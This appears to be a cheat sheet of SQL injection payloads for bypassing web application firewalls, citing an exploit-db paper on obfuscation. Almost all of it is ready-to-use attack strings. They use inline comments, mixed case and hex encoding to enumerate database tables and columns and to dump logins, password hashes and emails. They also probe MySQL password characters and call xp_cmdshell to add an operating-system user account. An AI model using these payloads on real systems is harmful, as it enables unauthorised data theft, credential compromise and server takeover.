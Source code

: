 ``` sql  
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES-- 
  
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE
  
+TABLE_NAME=0x41646d696e--
  
SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
  
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way
  
select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
  
select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
  
select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
  
select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
  
select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42
  
/?id=1+union+(select'1',concat(login,hash)from+users)
  
/?id=(1)union(((((((select(1),hex(hash)from(users))))))))
  
?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ “net user lucifer UrWaFisShiT” /*&id=1*/ --
  
id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
  
id=10 and 1=0/(select top 1 table_name from information_schema.tables)
 
id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
  
id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求
  
```
  
  
## Reference
  
[Beyond SQLi: Obfuscate and Bypass](https://www.exploit-db.com/papers/17934/)
  

